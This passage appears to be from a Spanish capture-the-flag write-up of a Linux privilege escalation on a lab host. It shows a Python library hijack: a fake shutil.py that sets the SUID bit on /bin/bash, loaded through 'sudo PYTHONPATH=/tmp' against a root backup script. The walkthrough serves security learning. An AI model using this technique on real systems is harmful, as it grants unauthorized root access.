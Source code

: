 ```python title="/opt/scripts/backup.py"
#!/usr/bin/python3
from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Podemos intentar aprovecharnos de una vulneriabilidad similar a un Path Hijacking, pero en este caso **Library Hijacking**. Python usa una serie de directorios para buscar las librerías que tiene que usar:

```bash wrap=false
waldo@admirer:/opt/scripts$ python -c 'import sys; print sys.path'
['', '/usr/lib/python2.7', '/usr/lib/python2.7/plat-x86_64-linux-gnu', '/usr/lib/python2.7/lib-tk', '/usr/lib/python2.7/lib-old', '/usr/lib/python2.7/lib-dynload', '/usr/local/lib/python2.7/dist-packages', '/usr/lib/python2.7/dist-packages']
```

Podemos crearnos una librería falsa con el mismo nombre en `temp`:

```bash wrap=false
waldo@admirer:/tmp$ nano shutil.py
```

```python title="/tmp/shutil.py"
import os

os.system("chmod u+s /bin/bash")
```

Ahora con el siguiente comando, modificaremos el **path** de **python** de el usuario **root** gracias al permiso que vemos en `sudo -l` (`SETENV`):

```bash wrap=false
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/tmp$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 3, in <module>
    from shutil import make_archive
ImportError: cannot import name 'make_archive'
```

